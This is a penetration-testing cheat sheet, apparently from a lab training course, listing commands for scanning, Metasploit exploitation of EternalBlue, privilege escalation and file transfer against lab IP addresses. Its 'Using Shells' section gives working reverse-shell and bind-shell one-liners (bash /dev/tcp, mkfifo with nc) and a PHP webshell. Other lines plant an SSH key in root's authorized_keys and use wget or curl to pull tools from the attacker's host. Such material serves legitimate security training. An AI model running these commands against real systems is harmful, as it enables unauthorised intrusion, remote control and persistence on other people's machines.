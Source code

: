 ## Basic Tools

| **Command** | **Description** |
| --------------|-------------------|
| **General** |
| sudo openvpn user.ovpn | Connect to VPN |
| ifconfig/ip a | Show our IP address |
| netstat -rn | Show networks accessible via the VPN |
| ssh user@10.10.10.10 | SSH to a remote server |
| ftp 10.129.42.253 | FTP to a remote server |
| **tmux** |
| tmux | Start tmux |
| ctrl+b | tmux: default prefix |
| prefix c | tmux: new window |
| prefix 1 | tmux: switch to window (1) |
| prefix shift+% | tmux: split pane vertically |
| prefix shift+" | tmux: split pane horizontally |
| prefix -> | tmux: switch to the right pane |


  

## Pentesting

| **Command** | **Description** |
| --------------|-------------------|
| **Service Scanning** |
| nmap 10.129.42.253 | Run nmap on an IP |
| nmap -sV -sC -p- 10.129.42.253 | Run an nmap script scan on an IP |
| locate scripts/citrix | List various available nmap scripts |
| nmap --script smb-os-discovery.nse -p445 10.10.10.40 | Run an nmap script on an IP |
| netcat 10.10.10.10 22 | Grab banner of an open port |
| smbclient -N -L \\\\10.129.42.253 | List SMB Shares |
| smbclient \\\\10.129.42.253\\users | Connect to an SMB share |
| snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0 | Scan SNMP on an IP |
| onesixtyone -c dict.txt 10.129.42.254 | Brute force SNMP secret string |
| **Web Enumeration** |
| gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt | Run a directory scan on a website |
| gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt | Run a sub-domain scan on a website |
| curl -IL https://www.inlanefreight.com | Grab website banner |
| whatweb 10.10.10.121 | List details about the webserver/certificates |
| curl 10.10.10.121/robots.txt | List potential directories in robots.txt |
| ctrl+U | View page source (in Firefox) |
| **Public Exploits** |
| searchsploit openssh 7.2 | Search for public exploits for a web application |
| msfconsole | MSF: Start the Metasploit Framework |
| search exploit eternalblue | MSF: Search for public exploits in MSF |
| use exploit/windows/smb/ms17_010_psexec | MSF: Start using an MSF module |
| show options | MSF: Show required options for an MSF module |
| set RHOSTS 10.10.10.40 | MSF: Set a value for an MSF module option |
| check | MSF: Test if the target server is vulnerable |
| exploit | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| nc -lvnp 1234 | Start a nc listener on a local port |
| bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1' | Send a reverse shell from the remote server |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f | Another command to send a reverse shell from the remote server |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f | Start a bind shell on the remote server |
| nc 10.10.10.1 1234 | Connect to a bind shell started on the remote server |
| python -c 'import pty; pty.spawn("/bin/bash")' | Upgrade shell TTY (1) |
| ctrl+z then stty raw -echo then fg then enter twice | Upgrade shell TTY (2) |
| echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php | Create a webshell php file |
| curl http://SERVER_IP:PORT/shell.php?cmd=id | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| ./linpeas.sh | Run linpeas script to enumerate remote server |
| sudo -l | List available sudo privileges |
| sudo -u user /bin/echo Hello World! | Run a command with sudo |
| sudo su - | Switch to root user (if we have access to sudo su) |
| sudo su user - | Switch to a user (if we have access to sudo su) |
| ssh-keygen -f key | Create a new SSH key |
| echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys | Add the generated public key to the user |
| ssh root@10.10.10.10 -i key | SSH to the server with the generated private key |
| **Transferring Files** |
| python3 -m http.server 8000 | Start a local webserver |
| wget http://10.10.14.1:8000/linpeas.sh | Download a file on the remote server from our local machine |
| curl http://10.10.14.1:8000/linenum.sh -o linenum.sh | Download a file on the remote server from our local machine |
| scp linenum.sh user@remotehost:/tmp/linenum.sh | Transfer a file to the remote server with scp (requires SSH access) |
| base64 shell -w 0 | Convert a file to base64 |
| echo f0VMR...SNIO...InmDwU \| base64 -d > shell | Convert a file from base64 back to its orig |
| md5sum shell | Check the file's md5sum to ensure it converted correctly |